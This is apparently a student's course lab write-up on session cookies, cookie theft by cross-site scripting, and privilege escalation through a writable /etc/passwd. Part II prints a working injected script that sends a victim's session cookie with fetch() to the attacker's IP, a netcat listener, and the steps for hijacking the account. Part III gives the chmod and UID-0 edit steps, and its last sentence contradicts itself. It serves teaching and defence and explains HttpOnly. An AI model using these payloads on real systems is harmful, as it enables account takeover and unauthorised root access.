 Ⅰ. Session Cookies Working As Intended
======================================

### a. What new cookie did you see when you logged in as Alice?

Upon logging in as Alice, I see a cookie named "session" whose value is some encoded text
 
### b. What is a session cookie?

A session cookie is a small text files sent by the server to be stored on the browser that gets deleted once you exit the website or the browser. It can contain information about user inputs such as login status, shopping carts, and etc. 
 
### c. What happens when you copy Alice's cookies to the new browser window and reload?

If you copy Alice's cookies to the new browser window and reload, you get logged in as Alice.
 
### d. How session cookies work

1. User signs in at the login page. The browser sends a HTTP POST request to the server, which contains username and password information.

2. The server responds with 302 FOUND HTTP response with a header called "Set-Cookie" that contains the name value pair of session cookie and the path of the cookie. The session cookie will be set by the server regardless of user's login status. However, the session cookie contains session ID, which is used to verify user's identity. If the session ID is not associated with any valid user at the server side at the given moment, the serve won't allow user with the wrong session ID to access restricted domains.  

3. If the user selected "Remember me" on the login page, then the server will also respond with another "Set-Cookie" header, containing name value pair of remember token with expiration date, path, and HttpOnly flag.

4. After receiving the name value pair of session cookie (and remember token) from the server through the "Set-Cookie" flag, the browser includes session cookie (and remember token cookie if it was set) in "Cookie" header of subsequent HTTP GET requests until the user exits the site or quits the browser. 

5. Suppose the user exited the website (or quit the browser). Suppose the remember token cookie was set in previous session and the remember token cookie has not expired. When the user tries to login to the same website, the browser sends a HTTP GET request with remember token cookie. 

6. If the remember token cookie is valid, the server responds with 200 OK with a new session cookie, specified in the "Set-Cookie" header of the HTTP Response. Then, the interaction between the browser and the server proceeds in the manner of step 3.    

7. When use presses the log out button, the browser sends a HTTP GET request to a logout page.  

8. The server responds with 302 FOUND, with appropriate number of "Set-Cookie" headers to delete the cookie values and reset cookie expiration date for all the set cookies related to the session.  
 
### e. What opportunities do session cookies open to you?

If you get hold of a valid user's session cookie, you can pretend to be a valid user while carrying out malicious campaigns on a server, making it difficult for administrators to blame you for any potential damages (repudiation).

If you have the capacity to conduct AITM, then you could invalidate user's session cookies so that the user can not login (Denial of Service).
 
Ⅱ. Stealing Session Cookies
===========================

### a. Show an exact copy of your FDF post as Eve. Give a brief explanation of what the Javascript in your FDF post does.

```
<script>
document.cookie.split(';').forEach(function(e) { 
    let parts = e.split('='); 
    let name = parts[0].trim(); 
    if (name === 'session') { 
        fetch('http://192.168.187.128:80/?s=' + parts[1], {method:'get'})
            .catch(function(error) {}); 
        } 
    }); 
</script>
```
When this malicious post is opened by an unaware user: 
1. Get the cookies of the user
2. Iterate through the cookies until you encounter the session cookie 
3. Send an HTTP GET request to my kali VM with the user's seesion cookie as a url parameter

### b. What did you do on Eve's machine to prepare to receive Alice's information?

```
nc -lvnp 80 
```
The above command listens for any connections to port 80. 

### c. Show the form in which Alice's information arrived on Kali.

```
GET /?s=<Alice's Session cookie>  HTTP/1.1
Host: 192.168.187.128
Origin: http://cs338.jeffondich.com
Connection: keep-alive
Accept: */*
Accept-Language: en-US,en;q=0.9
Referer: http://cs338.jeffondich.com/
Accept-Encoding: gzip, deflate 
```

### d. What can Eve do now to login to FDF as Alice?

Eve can now login as Alice using Alice's session cookie. Eve can either use proxy like Burpsuite to modify HTTP request or open the inspector tool to change the value of the session cookie to that of Alice's session cookie.

### e. Diagram clearly the sequence of events in Eve's attack on Alice via the FDF

1. Eve first posts a malicious script on the FDF and uses netcat to listen to oncoming traffic at port 80.
2. Alice opens the malicious post, and the scripts gets executed by the browser. 
    - As explained above, the script fetches the session cookie and sends a get request to Eve's machine
3. A HTTP GET request is sent to the specified ip address and port number.  
4. netcat, which is running of Eve's machine, receives the requests, displaying Alice's session cookie as part of the requested url.  
5. Eve uses Alice's cookie to log into the FDF by changing her session cookie value to be Alice's.

### f. Research and explain "HttpOnly." Show exactly where in you diagram of the attack that the use of HttpOnly would prevent Eve's attack from working.

HttpOnly flag forbids Javascript from accessing cookies. If this attribute was set with "Set-Cookie" header, then the following code would not have worked:
```
document.cookie.split(';') 
``` 
Thus, if HttpOnly flag was set, Eve's malicious code would not have executed when Alice unknowingly opened the post.

Ⅲ. Privilege Escalation via a Misconfigured /etc/passwd File
============================================================

### a. Show the Unix permissions of /etc/passwd and /etc/shadow on Kali VM 

```
ls -als /etc/passwd /etc/shadow
```

```
4 -rw-r--r-- 1 root root   3224 Nov 13 08:57 /etc/passwd
4 -rw-r----- 1 root shadow 1507 Nov 13 09:15 /etc/shadow 
```

### b. Which command do you execute as 'kali' user to make /etc/passwd globally writeable?

```
sudo chmod 766 /etc/passwd  
```

### c. How do you enable kermit to change the password for the "root" account?  

1. Open a terminal and open /etc/passwd file to write. 
2. Change the user and group id to 0, 0 (root's user and group id) 
3. Close the current terminal and open a new terminal for a fresh session. 
4. Note that you have kermit's previous uid and gid, but whoami cannot find name for kermit's previous uid.

### d. Show kermit can login as root 

login as kermit using kermit's password:
```
su kermit
```
Because uid and gid have been changed to be those of root's, kermit should not be logged in as root.


